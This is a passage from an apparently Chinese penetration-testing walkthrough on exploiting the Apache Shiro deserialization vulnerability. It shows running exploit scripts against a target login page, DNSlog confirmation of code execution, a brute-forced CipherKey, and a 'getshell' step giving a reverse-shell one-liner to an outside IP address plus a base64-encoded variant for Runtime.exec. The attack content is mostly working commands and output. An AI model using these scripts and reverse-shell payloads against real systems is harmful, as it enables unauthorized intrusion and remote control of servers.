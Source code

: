  
同时，我们可以进一步对shiro框架是否存在反序列化来进行验证：
用到的是[Shiroscan by 斯文](http://www.svenbeast.com/post/tskRKJIPg/){:target="_blank"}脚本，开源在github上，用法就不多赘述。
```bash
python3 shiro_rce.py https://shiro.vuln.ip/login.html "ping x.dnslog.cn"
 ____  _     _          ____                  
/ ___|| |__ (_)_ __ ___/ ___|  ___ __ _ _ __  
\___ \| '_ \| | '__/ _ \___ \ / __/ _` | '_ \ 
 ___) | | | | | | | (_) |__) | (_| (_| | | | |
|____/|_| |_|_|_|  \___/____/ \___\__,_|_| |_|

                           By 斯文

Welcome To Shiro反序列化 RCE ! 
[*]  开始检测模块 Class1:CommonsBeanutils1
```
然后脚本开始对不同的秘钥进行生成cookie，尝试让机器执行命令。等待脚本在跑的时候或者跑完，看一下dnslog上的dns记录，如果存在记录如下所示，那么就说明存在反序列化漏洞使得机器执行了任意代码，反之则无：
```bash
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:46:35
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
```
当然有的时候用shiroScan扫结束后并没有记录，即不存在漏洞；但是像我，又不死心，于是又在网上折腾找了另外一个能够跑秘钥的探测脚本-_-
[作者博客](https://www.bacde.me/post/Apache-Shiro-Deserialize-Vulnerability/){:target="_blank"}
```bash
python shiro_exp.py https://shiro.vuln.ip/login.html
try CipherKey :4AvVhmFLUs0KTA3Kprsdag==
generator payload done.
send payload ok.
checking.....
checking.....
checking.....
checking.....
vulnerable:true url:https://shiro.vuln.ip/login.html    CipherKey:3AvVhmFLUs0KTA3Kprsdag==
```
当然秘钥对于我们理解shiro反序列化框架也有一定的帮助，shiro的反序列化最初的漏洞来源也是因为秘钥硬编码。

## 2x01：getshell
通过上面的步骤我们就可以对shiro反序列化做一个判定，肯定是存在RCE漏洞，那么来实现我们的最终目的，GET-shell一般反弹shell的执行代码`bash -i >& /dev/tcp/47.52.233.92/11111 0>&1`，首先需要把代码进行base64编码，只有经过base64编码后shiro才认得这个命令，通过shiro自己本身的base64解码最终达到执行命令的目的；
转成base64编码 :

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny41Mi4yMzMuOTIvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}
````

像我比较偷懒，就直接在脚本上添加反弹shell，这样的好处就是我们不需要在生成poc的脚本里替换cookie，由脚本自动生成的cookie自动去跑，省事很多

- [java.lang.Runtime.exec()转换网址](http://www.jackson-t.ca/runtime-exec-payloads.html){:target="_blank"}
